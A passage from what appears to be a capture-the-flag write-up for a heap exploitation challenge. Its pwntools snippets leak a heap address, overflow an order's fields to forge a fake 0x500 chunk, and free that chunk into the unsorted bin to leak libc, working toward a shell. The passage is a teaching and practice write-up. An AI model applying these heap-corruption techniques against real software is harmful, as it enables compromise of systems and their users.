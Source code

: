 ```python
cancel(io, 0)
heap = u64(show(io)[0].name.ljust(8, b'\0')) << 12
log.info(f"heap @ 0x{heap:x}")
```

Now that we've leaked the heap, we can redo this trick, but completely overwrite the name, and we effectively have arbitrary rw on the heap.  This isn't enough to spawn a shell, we need to somehow leak something else.
My idea was to fake a 0x500 chunk and free it, and since it'd be placed in the unsorted bin, i'd have a pointer to `main_arena` that i could read to leak libc.

To do this we have to:
- Create and free enough orders to have at least 0x500 bytes of free space on the heap, i made 2 orders with 0x100 sized names and descriptions, and one order with a 0x90 name.
```python
order(io, 0, 0x100, b'A', 0x100, b'B', 0)
order(io, 2, 0x100, b'A', 0x100, b'B', 0)
cancel(io, 2)
cancel(io, 0)
order(io, 0, 0x90, b'A', 0x90, b'B', 0xff00) # the 0x500 chunk will end in the middle of this order's name
```
- Make an order which occupies a chunk at the start of this free area (doesn't matter if it's the struct, the name, or the description).
```python
order(io, 2, 0x100, b'A', 5, b'B', 0)
```
- Use our overflow to overwrite this first chunk's size and make it 0x500.
```python
payload = flat({
	0: heap << 12,
	0x18: 0x31,
	0x20: mk_order(0, 0, False, 0, 0xffff, heap + 0x300, 0xffff, heap + 0x370),
	0x48: 0x21,
	0x68: 0x21,
	0x88: 0x501
})
modify(io, 1, payload, b'B')
```
- The 0x500 chunk will end in the middle of some chunk ahead, we need to have put a fake size in there that covers the excess and goes up to the top chunk; using the sizes i listed before, 4 0x100 chunks, 1 0x90 chunk, and a few 0x30 chunks since there's the structs, i had to use a fake size of 0x80 to get up to the top chunk.
```python
modify(io, 0, b'A', b'B'*24 + p64(0x81))
```
- Free that order!
```python
# free this huge chunk, it'll go in the unsorted bin and a libc pointer will end up in the heap
cancel(io, 2)
# we also don't need this one anymore
cancel(io, 0)
```
